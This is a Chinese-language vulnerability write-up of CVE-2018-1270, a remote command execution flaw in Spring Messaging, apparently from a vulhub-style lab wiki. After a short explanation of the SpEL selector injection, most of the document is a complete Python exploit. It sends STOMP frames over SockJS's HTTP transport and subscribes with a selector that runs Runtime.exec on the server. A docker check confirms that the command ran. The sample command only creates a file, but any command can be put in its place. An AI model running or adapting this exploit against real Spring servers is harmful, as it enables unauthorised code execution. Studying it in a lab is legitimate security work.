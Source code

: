 （CVE-2018-1270）Spring Messaging 远程命令执行漏洞
==================================================

一、漏洞简介
------------

spring
messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，

在spring
messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用`StandardEvaluationContext`解析，造成命令执行漏洞。

二、漏洞影响
------------

Spring Java Framework \< 5.0

三、复现过程
------------

网上大部分文章都说spring messaging是基于websocket通信，其实不然。spring
messaging是基于sockjs（可以理解为一个通信协议），而sockjs适配多种浏览器：现代浏览器中使用websocket通信，老式浏览器中使用ajax通信。

连接后端服务器的流程，可以理解为：

1.  用[STOMP协议](http://jmesnil.net/stomp-websocket/doc/)将数据组合成一个文本流
2.  用[sockjs协议](https://github.com/sockjs/sockjs-client)发送文本流，sockjs会选择一个合适的通道：websocket或xhr(http)，与后端通信

所以我们可以使用http来复现漏洞，称之为"降维打击"。

我编写了一个简单的POC脚本exploit.py（需要用python3.6执行），因为该漏洞是订阅的时候插入SpEL表达式，而对方向这个订阅发送消息时才会触发，所以我们需要指定的信息有：

1.  基础地址，在vulhub中为`http://your-ip:8080/gs-guide-websocket`
2.  待执行的SpEL表达式，如`T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')`
3.  某一个订阅的地址，如vulhub中为：`/topic/greetings`
4.  如何触发这个订阅，即如何让后端向这个订阅发送消息。在vulhub中，我们向`/app/hello`发送一个包含name的json，即可触发这个事件。当然在实战中就不同了，所以这个poc并不具有通用性。

根据你自己的需求修改POC。如果是vulhub环境，你只需修改1中的url即可。

    CVE-2018-1270.py
    #!/usr/bin/env python3
    import requests
    import random
    import string
    import time
    import threading
    import logging
    import sys
    import json

    logging.basicConfig(stream=sys.stdout, level=logging.INFO)

    def random_str(length):
        letters = string.ascii_lowercase + string.digits
        return ''.join(random.choice(letters) for c in range(length))


    class SockJS(threading.Thread):
        def __init__(self, url, *args, **kwargs):
            super().__init__(*args, **kwargs)
            self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
            self.daemon = True
            self.session = requests.session()
            self.session.headers = {
                'Referer': url,
                'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
            }
            self.t = int(time.time()*1000)

        def run(self):
            url = f'{self.base}/htmlfile?c=_jp.vulhub'
            response = self.session.get(url, stream=True)
            for line in response.iter_lines():
                time.sleep(0.5)
        
        def send(self, command, headers, body=''):
            data = [command.upper(), '\n']

            data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
            
            data.append('\n\n')
            data.append(body)
            data.append('\x00')
            data = json.dumps([''.join(data)])

            response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
            if response.status_code != 204:
                logging.info(f"send '{command}' data error.")
            else:
                logging.info(f"send '{command}' data success.")

        def __del__(self):
            self.session.close()


    sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
    sockjs.start()
    time.sleep(1)

    sockjs.send('connect', {
        'accept-version': '1.1,1.0',
        'heart-beat': '10000,10000'
    })
    sockjs.send('subscribe', {
        'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
        'id': 'sub-0',
        'destination': '/topic/greetings'
    })

    data = json.dumps({'name': 'vulhub'})
    sockjs.send('send', {
        'content-length': len(data),
        'destination': '/app/hello'
    }, data)

执行：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1270)SpringMessaging远程命令执行漏洞/media/rId26.png)

进入容器`docker-compose exec spring bash`，可见`/tmp/success`已成功创建：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1270)SpringMessaging远程命令执行漏洞/media/rId27.png)

